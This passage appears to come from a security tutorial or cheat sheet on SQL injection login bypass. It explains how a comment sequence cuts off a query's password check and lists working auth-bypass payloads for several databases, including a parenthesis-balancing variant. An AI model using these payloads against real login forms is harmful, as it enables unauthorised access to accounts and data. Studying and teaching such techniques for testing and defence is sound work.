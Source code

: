 #### Why Comments Work
```sql
-- Original query:
SELECT * FROM logins WHERE username='USER' AND password='PASS';

-- After injection with admin'-- -:
SELECT * FROM logins WHERE username='admin'-- - AND password='PASS';

-- Result: Everything after -- is ignored
SELECT * FROM logins WHERE username='admin'
```

### Auth Bypass with Comments
```sql
-- Basic comment-out approaches
admin'-- -                     # MySQL with required space
admin'#                        # MySQL hash comment  
admin'%23                      # URL encoded hash comment
admin')-- -                    # Close parenthesis + comment
admin'/*                       # Incomplete inline comment

-- Different comment styles by database
-- MySQL comment styles
admin')-- -
admin')#
admin')/*comment*/

-- SQL Server comments  
admin')-- -
admin');--

-- Oracle comments
admin')--
```

#### Complex Query Scenarios

**Scenario 1: Simple Query**
```sql
-- Original: SELECT * FROM logins WHERE username='admin' AND password='hash';
-- Injection: admin'-- -
-- Result: SELECT * FROM logins WHERE username='admin'-- ' AND password='hash';
-- ✅ Works: Password check bypassed
```

**Scenario 2: Parenthesis Challenge**
```sql
-- Original: SELECT * FROM logins WHERE (username='admin' AND id > 1) AND password='hash';
-- Injection: admin'-- -  
-- Result: SELECT * FROM logins WHERE (username='admin'-- ' AND id > 1) AND password='hash';
-- ❌ FAILS: Syntax error - unbalanced parenthesis!

-- Solution: admin')-- -
-- Result: SELECT * FROM logins WHERE (username='admin')-- ' AND id > 1) AND password='hash';
-- ✅ Works: Parenthesis balanced, rest commented out
```

